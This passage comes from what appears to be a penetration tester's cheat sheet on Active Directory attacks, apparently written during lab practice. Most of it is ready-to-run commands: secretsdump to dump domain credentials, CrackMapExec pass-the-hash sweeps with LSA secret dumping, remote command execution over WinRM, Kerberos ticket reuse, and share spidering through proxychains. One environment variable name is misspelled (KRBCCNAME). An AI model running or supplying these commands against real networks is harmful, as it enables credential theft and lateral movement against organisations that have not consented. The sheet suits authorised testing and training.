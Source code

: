

If you see a username with a "$" at the end, this is a machine account, and cracking these passwords are infeasable at the moment. Look for service to be in Users OU, not Servers.

Impacket's secretsdump is a great alternative if you can't run mimikatz.

```bash
secretsdump.py htb.local/hacker:Hacker123\!@$ip
```

#### CrackMapExec 

To see if anybody has the same hash or password on another computer in the network:

```bash
crackmapexec smb 10.10.10.15-24 -u '' -H 5bcoe56i4645ho43h2ei534rsat -d corp.com --continue-on-success

# You can also use with a username, such as Administrator
crackmapexec smb 10.10.10.15-24 -u 'Administrator' -H 5bcoe56i4645ho43h2ei534rsat --local-auth --lsa

# This one worked
crackmapexec smb 10.10.10.15 -u 'Administrator' -H 5bcoe56i4645ho43h2ei534rsat -d svcorp --continue-on-success

proxychains -q crackmapexec smb files02 -u joe -p Flowers1 --spider ADMIN$ --regex .
```

Execute remote commands:

```bash
crackmapexec winrm -u 'pete' -H <ntlm hash> --local-auth
```

Kerberos:
```bash
cat matthew.b64 | base64 -d > matthew.ccache
export KRBCCNAME=$(pwd)/matthew.ccache
klist

proxychains -q crackmapexec smb corp.com --kerberos --continue-on-success # Must provide FQDNs

# Use cme to list the domain
proxychains -q crackmapexec smb 10.10.10.1X/24
# Add the FQNs to a targets file
...
# Retrieve hashes from password
proxychains crackmapexec smb dev02-corp -u Administrator -p Password123! --local-auth --lsa

# Dump hashes for other users
proxychains crackmapexec smb web02-corp -u Matthew.Lucas -H 5bcoe56i4645ho43h2ei534rsat --lsa
```

#### Enter Powershell Session as Another User
